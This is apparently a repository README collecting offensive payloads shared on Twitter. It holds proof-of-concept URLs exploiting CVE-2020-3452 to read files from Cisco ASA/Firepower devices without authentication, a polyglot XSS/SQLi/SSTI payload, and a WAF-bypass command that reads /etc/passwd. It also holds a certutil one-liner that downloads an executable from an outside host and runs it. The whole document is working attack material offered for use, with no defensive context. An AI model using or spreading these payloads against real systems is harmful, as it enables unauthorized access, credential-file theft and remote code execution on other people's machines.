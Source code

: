 # open-twitter-hacking

### CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower
```
Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.
For example to read "/+CSCOE+/portal_inc.lua" file.
https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```
```
POC #2: 
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```
### Test SQLi + XSS + SSTI with the same payload use
```
'"><svg/onload=prompt(5);>{{1234*6543}}
```
### Here's a command injection WAF bypass that works:

```
cat /e${hahaha}tc/${heywaf}pas${catchthis}swd
```
### JAVA Serialization Vulnerability

```
https://medium.com/bugbountywriteup/a-comprehensive-guide-to-java-serialization-vulnerability-18fad6e37b64
```


### cmd download file exec 

```
cmd.exe /c certutil.exe -urlcache -split -f http://www.sec.com/sec.exe %SystemRoot%/Temp/sec.exe & cmd.exe /c %SystemRoot%/Temp/sec.exe
```
